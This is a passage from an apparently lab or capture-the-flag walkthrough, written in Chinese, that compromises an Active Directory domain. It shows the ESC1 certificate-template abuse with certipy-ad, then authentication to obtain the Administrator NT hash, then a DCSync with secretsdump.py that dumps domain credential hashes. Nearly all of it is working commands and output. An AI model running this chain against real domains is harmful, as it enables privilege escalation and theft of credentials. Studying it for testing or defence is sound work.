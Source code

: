 ## 5.5 ESC1漏洞利用

使用机器账户申请Administrator的证书：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ certipy-ad req -u 'EVILPC$@confidence.com' -p 'passwd123' -ca confidence-DC-CA -template ca-login -upn administrator@confidence.com -sid S-1-5-21-3649830887-1815587496-1699028491-500 -dc-ip 192.168.205.177
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 5
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@confidence.com'
[*] Certificate object SID is 'S-1-5-21-3649830887-1815587496-1699028491-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

# 六、域管理员权限获取

## 6.1 证书认证获取TGT和NT Hash

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ certipy-ad auth -pfx administrator.pfx -username administrator -domain confidence.com -dc-ip 192.168.205.177
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@confidence.com'
[*]     SAN URL SID: 'S-1-5-21-3649830887-1815587496-1699028491-500'
[*]     Security Extension SID: 'S-1-5-21-3649830887-1815587496-1699028491-500'
[*] Using principal: 'administrator@confidence.com'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@confidence.com': aad3b435b51404eeaad3b435b51404ee:bbabdc192282668fe5190ab0c5150b34
```

## 6.2 DCSync攻击

使用TGT票据执行DCSync攻击：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ export KRB5CCNAME=administrator.ccache

┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ secretsdump.py -k confidence.com/administrator@dc.confidence.com -no-pass -just-dc   
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bbabdc192282668fe5190ab0c5150b34:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:45ea529d24347b6d23041e1258cc3db3:::
ca-user:1104:aad3b435b51404eeaad3b435b51404ee:8636734a8c71b741a33bcb2bf323ea5c:::
mulis:1105:aad3b435b51404eeaad3b435b51404ee:4c090b2a4a9a78b43510ceec3a60f90b:::
```